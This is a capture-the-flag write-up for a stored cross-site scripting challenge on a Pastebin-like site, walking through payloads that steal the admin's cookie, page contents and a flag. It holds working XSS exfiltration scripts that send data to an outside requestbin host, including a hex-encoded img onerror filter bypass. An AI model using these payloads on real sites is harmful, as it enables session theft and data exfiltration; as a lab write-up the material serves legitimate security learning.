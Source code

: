 # Admin Secrets

## Problem

See if you can get the flag from the admin at this website!

Written by avz92

## Solution

This was probably one of my favourite challenges from the CTF (that is after the update was added where the challenge gave more feedback)

Visiting the website, we can create an account. The website is called Textbin, very similar to a Pastebin where you can type text and it will save it as a post. It also let's you report posts to the admin. That sounds very much like a Cross Site Scripting (XSS) attack.  

Trying `<script>alert(1)</script>` confirms that.

Like with most XSS challenges, I assumed we need to steal the admin's session cookie allowing us to login as them. So I wrote a small cookie stealing script and have the admin's cookie sent over to a requestbin. 

```html
<script>
  req = new XMLHttpRequest(); 
  req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?cookie=' + document.cookie); 
  req.send();
</script>
```

From that we get:
`hint="Check the admin console!\012"`

Looking at the source code of the page where it says report to admin, we can see a div,

```html
<div class="col-8 admin_console" >
  <!-- Only the admin can see this -->
</div>
```

So instead of stealing `document.cookie` let's steal `document.getElementsByClassName("admin_console")[0].innerHTML`

However, there is one additional step due to the fact that the admin console is loaded after our XSS executes so we need to add an event listener to run the XSS after everything has been rendered

```html
<script>
document.addEventListener("DOMContentLoaded", function(event){
  req = new XMLHttpRequest(); 
  req.open('GET', 'https://enl502avnnt87.x.pipedream.net/?output=' + encodeURI(document.getElementsByClassName("admin_console")[0].innerHTML)); 
  req.send();
});
</script>
```

From that we get:
```html
<!-- Only the admin can see this --> 
<button class="btn btn-primary flag-button">Access Flag</button>
<a href="/button" class="btn btn-primary other-button">Delete User</a>
<a href="/button" class="btn btn-primary other-button">Delete Post</a>
```

Instead of simulating the press of the flag button, I opted to simply leak the entire source code and see what pressing the button does.

```html
<script>
document.addEventListener("DOMContentLoaded", function(event){
  req = new XMLHttpRequest();
  req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?output=' + btoa(document.getElementsByTagName('HTML')[0].innerHTML));
  req.send();
});
</script>
```

We can see the button simply makes a get request to `/admin_flag` endpoint.

I thought I was really close to solving it at this point, simply needed to make the admin visit that endpoint and sent its contents to the requestbin. 

```html
<script>
req1 = new XMLHttpRequest();
req1.open('GET', '/admin_flag');
req1.onload = function() {
    var flag = req1.response;
    req = new XMLHttpRequest(); 
    req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?output=' + encodeURI(flag)); 
    req.send();
}
req1.send();
</script>
```

Unfortunately, we don't get the flag from that. Instead we get:
```
This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed for the following violations: Script tags found. Single quote found. Parenthesis found.
```

So looks like the author implemented some sort of filtering. The weird part is the XSS still works but looks like the flag got replaced by that.
After a lot of googling and research, I was able to find a way to bypass the checks the site makes. 

```html
<img src=1 onerror=&#x72&#x65&#x71&#x31&#x20&#x3d&#x20&#x6e&#x65&#x77&#x20&#x58&#x4d&#x4c&#x48&#x74&#x74&#x70&#x52&#x65&#x71&#x75&#x65&#x73&#x74&#x28&#x29&#x3b&#x0a&#x72&#x65&#x71&#x31&#x2e&#x6f&#x70&#x65&#x6e&#x28&#x60&#x47&#x45&#x54&#x60&#x2c&#x20&#x60&#x2f&#x61&#x64&#x6d&#x69&#x6e&#x5f&#x66&#x6c&#x61&#x67&#x60&#x29&#x3b&#x0a&#x72&#x65&#x71&#x31&#x2e&#x6f&#x6e&#x6c&#x6f&#x61&#x64&#x20&#x3d&#x20&#x66&#x75&#x6e&#x63&#x74&#x69&#x6f&#x6e&#x28&#x29&#x20&#x7b&#x20&#x0a&#x09&#x76&#x61&#x72&#x20&#x66&#x6c&#x61&#x67&#x20&#x3d&#x20&#x72&#x65&#x71&#x31&#x2e&#x72&#x65&#x73&#x70&#x6f&#x6e&#x73&#x65&#x3b&#x0a&#x09&#x72&#x65&#x71&#x20&#x3d&#x20&#x6e&#x65&#x77&#x20&#x58&#x4d&#x4c&#x48&#x74&#x74&#x70&#x52&#x65&#x71&#x75&#x65&#x73&#x74&#x28&#x29&#x3b&#x0a&#x09&#x72&#x65&#x71&#x2e&#x6f&#x70&#x65&#x6e&#x28&#x60&#x47&#x45&#x54&#x60&#x2c&#x20&#x60&#x68&#x74&#x74&#x70&#x73&#x3a&#x2f&#x2f&#x65&#x6e&#x67&#x75&#x6a&#x7a&#x72&#x37&#x77&#x6c&#x79&#x30&#x6b&#x2e&#x78&#x2e&#x70&#x69&#x70&#x65&#x64&#x72&#x65&#x61&#x6d&#x2e&#x6e&#x65&#x74&#x2f&#x3f&#x6f&#x75&#x74&#x70&#x75&#x74&#x3d&#x60&#x20&#x2b&#x20&#x65&#x6e&#x63&#x6f&#x64&#x65&#x55&#x52&#x49&#x28&#x66&#x6c&#x61&#x67&#x29&#x29&#x3b&#x0a&#x09&#x72&#x65&#x71&#x2e&#x73&#x65&#x6e&#x64&#x28&#x29&#x3b&#x20&#x0a&#x09&#x7d&#x0a&#x72&#x65&#x71&#x31&#x2e&#x73&#x65&#x6e&#x64&#x28&#x29&#x3b />
```

The image source does not exist, so it goes to the onerror and executes the javascript which is encoded in hex. 

Flag: **tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}**
